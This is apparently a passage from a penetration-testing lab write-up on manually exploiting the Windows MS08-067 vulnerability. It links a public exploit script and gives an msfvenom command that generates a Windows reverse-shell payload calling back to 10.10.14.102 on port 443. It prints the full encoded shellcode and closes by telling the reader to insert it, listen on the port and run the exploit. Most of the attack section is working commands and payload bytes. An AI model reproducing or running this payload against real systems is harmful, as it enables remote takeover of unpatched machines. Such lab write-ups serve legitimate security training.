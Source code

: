 ## Manual Exploitation
There are multiple MS08-67 exploits available on the internet but the one which worked the best for me is <a href=https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py> Jivoi </a> 

To make this python script work we just have to replace the default given ```Shellcode``` with our own Shellcode. generation command via ```msfvenom``` for different payload style is already given in comments by the author inside the script.

```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.102 LPORT=443 EXITFUNC=thread -b "x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows```

``` bash
┌─[atom@atom-vmwarevirtualplatform]─[~]
└──_ $msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.102 LPORT=443 EXITFUNC=thread -b "x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows 
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x78)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x80\x88\xaa\xc1\x83\xee\xfc\xe2\xf4\x7c\x60\x28\xc1\x80\x88"
"\xca\x48\x65\xb9\x6a\xa5\x0b\xd8\x9a\x4a\xd2\x84\x21\x93\x94"
"\x03\xd8\xe9\x8f\x3f\xe0\xe7\xb1\x77\x06\xfd\xe1\xf4\xa8\xed"
"\xa0\x49\x65\xcc\x81\x4f\x48\x33\xd2\xdf\x21\x93\x90\x03\xe0"
"\xfd\x0b\xc4\xbb\xb9\x63\xc0\xab\x10\xd1\x03\xf3\xe1\x81\x5b"
"\x21\x88\x98\x6b\x90\x88\x0b\xbc\x21\xc0\x56\xb9\x55\x6d\x41"
"\x47\xa7\xc0\x47\xb0\x4a\xb4\x76\x8b\xd7\x39\xbb\xf5\x8e\xb4"
"\x64\xd0\x21\x99\xa4\x89\x79\xa7\x0b\x84\xe1\x4a\xd8\x94\xab"
"\x12\x0b\x8c\x21\xc0\x50\x01\xee\xe5\xa4\xd3\xf1\xa0\xd9\xd2"
"\xfb\x3e\x60\xd7\xf5\x9b\x0b\x9a\x41\x4c\xdd\xe0\x99\xf3\x80"
"\x88\xc2\xb6\xf3\xba\xf5\x95\xe8\xc4\xdd\xe7\x87\x77\x7f\x79"
"\x10\x89\xaa\xc1\xa9\x4c\xfe\x91\xe8\xa1\x2a\xaa\x80\x77\x7f"
"\x91\xd0\xd8\xfa\x81\xd0\xc8\xfa\xa9\x6a\x87\x75\x21\x7f\x5d"
"\x3d\xab\x85\xe0\xa0\xcb\x8e\xee\xc2\xc3\x80\x89\x11\x48\x66"
"\xe2\xba\x97\xd7\xe0\x33\x64\xf4\xe9\x55\x14\x05\x48\xde\xcd"
"\x7f\xc6\xa2\xb4\x6c\xe0\x5a\x74\x22\xde\x55\x14\xe8\xeb\xc7"
"\xa5\x80\x01\x49\x96\xd7\xdf\x9b\x37\xea\x9a\xf3\x97\x62\x75"
"\xcc\x06\xc4\xac\x96\xc0\x81\x05\xee\xe5\x90\x4e\xaa\x85\xd4"
"\xd8\xfc\x97\xd6\xce\xfc\x8f\xd6\xde\xf9\x97\xe8\xf1\x66\xfe"
"\x06\x77\x7f\x48\x60\xc6\xfc\x87\x7f\xb8\xc2\xc9\x07\x95\xca"
"\x3e\x55\x33\x4a\xdc\xaa\x82\xc2\x67\x15\x35\x37\x3e\x55\xb4"
"\xac\xbd\x8a\x08\x51\x21\xf5\x8d\x11\x86\x93\xfa\xc5\xab\x80"
"\xdb\x55\x14";
```

Once you change the shellcode value, lessen on port 443 and execute python code 
